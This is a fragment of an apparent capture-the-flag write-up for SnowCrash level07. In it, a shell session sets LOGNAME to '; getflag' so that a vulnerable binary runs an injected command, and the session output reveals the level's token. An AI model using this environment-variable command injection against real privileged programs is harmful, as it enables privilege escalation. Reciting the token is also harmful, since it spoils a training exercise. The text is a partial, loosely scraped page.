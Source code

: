 level07@SnowCrash:~$ export LOGNAME="; getflag"
level07@SnowCrash:~$ ./level07 

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
